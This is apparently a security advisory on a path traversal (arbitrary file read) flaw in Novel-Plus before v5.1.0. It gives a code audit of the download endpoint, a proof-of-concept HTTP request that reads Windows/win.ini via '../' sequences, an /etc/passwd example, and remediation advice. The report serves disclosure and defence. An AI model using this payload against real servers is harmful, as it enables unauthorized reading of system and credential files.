

## Vulnerability Submitter

**Name:网络安全爱好者_游通** 

## Arbitrary File Read Vulnerability Exists in Novel-Plus v5.1.0 and Earlier Version

**Vulnerability Impact Scope**

`novel-plus < v5.1.0`

**official website**

 https://novel.xxyopen.com/index.htm

**github**

https://github.com/201206030/novel-plus

### Vulnerability Overview

Directory traversal vulnerability is a common web security flaw that allows attackers to access unauthorized files or directories on a server through specially crafted URL paths. This vulnerability typically arises due to insufficient validation of user input by the web application, enabling attackers to construct specific URL paths to access sensitive files on the server.

### JavaWeb code auditing process

**Source file:** 

`novel-admin\src\main\java\com\java2nb\common\controller\FileController.java,lines179-197.`



This code has a path traversal vulnerability for the following reasons:

1. **Unvalidated user-controllable parameter**:
- The `filePath` parameter is user-controlled, and the code does not perform any validation or filtering on it.
- An attacker can craft malicious `filePath` values (e.g., `../../etc/passwd`) to access sensitive files on the server, potentially leading to unauthorized data exposure.
2. **Path concatenation issue**:
- The code directly concatenates the user-input `filePath` with the upload path:
```java
String realFilePath = jnConfig.getUploadPath() + filePath;
```
- If `filePath` contains path traversal characters (e.g., `../`), it can bypass the intended upload directory restrictions and access arbitrary directories on the server.
3. **No restrictions on file access scope**:

- The code lacks restrictions on file access scope, allowing an attacker to exploit the path traversal vulnerability and access arbitrary files on the server.

### Vulnerability reproduction

**Vulnerability Route:** `/common/sysFile/download`

**Vulnerable Parameter:** `filePath`

1. Log in using the admin account to obtain the session cookie (which grants administrator privileges)


2.Subsequent testing demonstrates that a directory traversal attack successfully retrieved sensitive data from the `Windows/win.in` file.


**POC**

```HTTP
GET /common/sysFile/download?filePath=../../../../Windows/win.ini&fileName=test.txt HTTP/1.1 
Host: 192.168.200.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://192.168.200.1/main
Cookie: JSESSIONID=a3d5047e-3a4f-4454-8ba1-00053268b01a
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
```

### **Vulnerability Remediation Recommendations**

1. **Strictly Validate User Input:**

   Conduct legitimacy checks on user-provided file names and path parameters. Filter out path traversal sequences such as ../, ..\, and URL-encoded forms (e.g., %2e%2e%2f).

2. **Use a whitelist mechanism:** 

   allow only specific character sets (such as letters, numbers, underscores) or file extensions (such as .jpg, .pdf).


